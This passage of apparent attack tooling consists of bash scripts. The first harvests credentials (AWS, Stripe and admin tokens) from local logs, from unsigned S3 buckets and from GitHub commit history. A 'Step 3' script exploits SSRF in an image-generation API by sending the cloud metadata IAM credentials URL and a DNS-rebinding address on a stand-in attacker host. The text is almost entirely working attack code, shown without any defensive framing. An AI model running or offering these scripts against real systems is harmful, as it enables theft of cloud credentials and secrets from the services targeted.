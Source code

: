 ```bash

CREDENTIAL_PATTERNS=(
  "ADMIN_SERVICE_TOKEN"
  "ADMIN_IMPERSONATION_SECRET"
  "AWS_SECRET_ACCESS_KEY"
  "STRIPE_SECRET_KEY"
  "DATABASE_URL"
  "password"
  "api_key"
  "token"
  "secret"
)

echo "Searching for credentials in local logs..."
for pattern in "${LOG_PATTERNS[@]}"; do
  for cred in "${CREDENTIAL_PATTERNS[@]}"; do
    grep -r -i "$cred" $pattern 2>/dev/null | head -5
  done
done

# If deployed on cloud, check S3 buckets for logs
echo "Checking S3 buckets for exposed logs..."
aws s3 ls --recursive s3://app-logs/ --no-sign-request 2>/dev/null | grep ".log" | while read -r line; do
  LOGFILE=$(echo "$line" | awk '{print $NF}')
  echo "Downloading: $LOGFILE"
  aws s3 cp "s3://app-logs/$LOGFILE" - --no-sign-request 2>/dev/null | \
    grep -E "(TOKEN|SECRET|PASSWORD|API_KEY)" | head -20
done

# Check GitHub for accidentally committed secrets
echo "Searching GitHub commits for leaked secrets..."
gh api repos/OWNER/REPO/commits --jq '.[].sha' | while read SHA; do
  gh api repos/OWNER/REPO/commits/$SHA | \
    jq -r '.files[].patch' | \
    grep -E "ADMIN_SERVICE_TOKEN|SECRET" && echo "Found in commit: $SHA"
done
```

**Step 3: Environment Variable Extraction via SSRF**
```bash
#!/bin/bash
# ssrf_env_extraction.sh - Exploit SSRF to read environment variables

TARGET="https://api.example.com"

# Test for SSRF vulnerability (if image generation uses external URLs)
echo "Testing SSRF via image generation prompt..."

# Attempt 1: Direct metadata access
curl -X POST "${TARGET}/api/comics/generate-image" \
  -H "Authorization: Bearer ${TOKEN}" \
  -H "Content-Type: application/json" \
  -d '{
    "panelDescription": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
  }'

# Attempt 2: DNS rebinding attack
curl -X POST "${TARGET}/api/comics/generate-image" \
  -H "Authorization: Bearer ${TOKEN}" \
  -H "Content-Type: application/json" \
  -d '{
    "panelDescription": "http://attacker-dns-rebind.com/extract-metadata"
  }'
```